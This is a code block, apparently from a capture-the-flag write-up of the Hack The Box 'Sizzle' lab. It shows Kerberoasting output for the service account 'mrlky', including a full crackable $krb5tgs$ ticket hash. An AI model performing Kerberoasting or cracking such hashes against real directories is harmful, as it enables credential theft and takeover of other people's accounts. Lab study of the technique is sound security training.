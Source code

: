 ```null
[*] SamAccountName         : mrlky
[*] DistinguishedName      : CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
[*] ServicePrincipalName   : http/sizzle
[*] PwdLastSet             : 7/10/2018 2:08:09 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$46942998ACECC61F85DF0D44E6DB
                             FBB8$E3F2F615F33DF2F9F06ADD37A8A249B052980073527353B8A7CB98B40C4615FBDC4A3854BAB
                             682BA0607C8D1B239E41D53C2C29317343183AF26A2165F06DFFB7B5CC293B73AED9E34F725E2EC5
                             EDD3852812EF12A6E47386DC3AA20A7685519670D44308E9CA47D27411668E9EDDE7625E1B333DD9
                             3653F974C18FD51BB9D8B76D53C814BB4266E7686B5D4AA10A8B3F0116D335DF1EDCE4EB49CC4FBC
                             B5CB6B79DECD4CF5CC67BB98340B642F1BD7450269F874093F17C60DE0A741F6F112E565FD3A615E
                             3EDFC42E58C8454F7CE6E7C9B6415011A70BB378D5FD2A060B5435F11F0444DA63E963C3DF92EFE3
                             4456C968EB9FDF747A3E262F7472551C2825F3730F860F5396E46C71A2CA980624B5122561EE008C
                             C5B0CCC7D12367EF4FB982B8836DC3B51A395E3B81997E0D7DF3DA5AEC4E873BE0F5C157B8D19B30
                             C2B9DDCE93771BF8A70F3570DCB6CE8FD941AB2DA741B8B92C8210AD7704941CC1E085BFEA54196C
                             47B3D251270FBB42CDC13A11CDEEBE473F00355CEF337E72B6ABD9C8197083EA2E19482FEF6EA9DD
                             80586A8F28C68CEC0822A9112B2DD5342918C8B0F8E638C76BD0FF4357B6E951A544D60D617F606F
                             434698D13B3BC0468B436078ACA89E4592C5B20BE9E63DACD25C0DE3D1C141AE3B93BE6D89E66A3E
                             0C376A3B24814EA53B3FD570EA3E8A43845D4CBAFC8F63D8F2F14B5C280F4E7CE20EBDCA7ECE6DAB
                             D9310B10F5B3ADDD80B31A1746AB91F35776D40DF01A143757E3F459A10EDE11869296C9893FB3D9
                             80B10FA937EAAA33CD1E819CA08007C3C49650E7FCCC20115F6150AB3AEC875FC1B58427C1F7C630
                             F2B1D37CCB9C04EC25CD18236EB07C78DCFA52AC4353DFF7C622576DE19134E7A34FF9ADBC16D209
                             B50CC1D417E2889FAC37B40CA66A5E9CD326020CFB5BCD574A97511359A284E5856D7AA80F135786
                             E57A243C5B7ED853EDF158157FF25F77124EA36F8E6D09FBE316A8FCD569CB0FEBEA67F0EB239C51
                             7DE4F326B7F1E79F666F2D448AE3DB13CAA1B471EF8F4172ABBE3AD78E20F3E86998C5C0B36F3EB3
                             46C4465C886DEDED3BCCC113B0CD4D2B6D331DBCB2D483887CA9195E46DE95DA6368D9F4834BA9D4
                             B25AFF4BDE9FCFF7FE0D4487080CA35487DE4A4AB316492A6534EA7E5BACC67EA6893E1C2C154DBB
                             2CDCB44E43C846A48533EAC21FDC38CF020B72DA506D2D2B2ACF2053DB2F82A699C07B29999E596D
                             EEB3DF46DD18ED0BDDAAC3068DD84887D0248352D24F9F15A76C7AE9015408A18B67649A48B0D056
                             4409DFC2B6695E083AAE400942508E4E6E1082505BBD6082F4185C110B5CBB596A2C426578609E69
                             C02410F432981DD4B
```
